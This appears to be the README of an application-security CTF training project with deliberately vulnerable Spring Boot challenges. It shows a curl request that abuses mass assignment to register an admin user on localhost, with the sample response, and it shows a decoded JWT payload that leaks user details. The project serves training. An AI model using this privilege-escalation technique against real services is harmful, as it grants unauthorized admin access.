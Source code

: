 # Security Champion 2024
AppSec CTF challenges

`docker compose up --build`

## Springboot challenges

### Mass assignment
If user is created in Registration, he will be a non-admin user by default.

The user can be registered through `curl` command and set the role to be `0`:

```
curl -X POST \
  http://localhost:8080/api/users/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "newuser",
    "password": "password",
    "firstname": "hello",
    "lastname": "world",
    "email": "newuser@secchamp.test",
    "phone": "1234567890",
    "role": 0
  }'
```

Sample Result
```
{"userId":9,"username":"newuser","password":"$2a$10$9gSURvUNwadwqDWLRNfn7eJHUvAgBKR9JHmIuRPrCFfRjB/LCjd/2","email":"newuser@secchamp.test","firstname":"hello","lastname":"world","phone":"1234567890","role":0,"createDate":"20240923122253","lastUpdateDate":null,"lastLogin":null}
```


#### ctf 
1. Please create a new admin user `secadmin` and find the flag.

(answer in the format of `Flag{base64 encoded user info stored in cookie}`)


### jwt token contains excessive information

Since the token is signed, modifying the content and regen the token as admin will not work
```
{
  "firstname": "admin",
  "role": 0,
  "phone": "12345678901111",
  "login": true,
  "userId": 1,
  "email": "admin@secchamp.test",
  "username": "admin",
  "lastname": "admin",
  "sub": "admin",
  "iat": 1727096012,
  "exp": 1727132012
}
```
